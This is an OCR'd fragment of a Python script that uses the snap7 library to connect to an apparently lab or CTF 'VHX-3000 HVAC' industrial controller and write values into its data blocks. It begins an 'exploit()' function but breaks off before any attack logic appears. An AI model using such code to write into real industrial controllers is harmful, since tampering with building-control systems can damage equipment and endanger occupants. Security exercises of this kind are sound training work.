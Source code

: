 ```python

        print(f"Error reading DB{db_num}: {e}")

        return None



def write(db_num, offset, value):

    value_bytes = value.encode('utf-8')

    max_size = 50 - offset

    if len(value_bytes) > max_size:

        print(f"Warning: Value '{value}' truncated to {max_size} bytes")

        value_bytes = value_bytes[:max_size]

    

    try:

        client.db_write(db_num, offset, value_bytes)

        print(f"Wrote '{value}' to DB{db_num} at offset {offset}")

    except Exception as e:

        print(f"Error writing to DB{db_num}: {e}")



# Connect to VHX-3000 server

client = snap7.client.Client()

try:

    client.connect("192.168.1.64", 0, 1, 1338) # IP of the server and port

    if not client.get_connected():

        print("Connection to VHX-3000 failed")

        exit(1)

    print("Connected to VHX-3000 HVAC Server.")

except Exception as e:

    print(f"Connection error: {e}")

    exit(1)

# Exploit sequence

def exploit():

    print("\n=== Exploiting VHX-3000 HVAC System ===")

    size = 50

```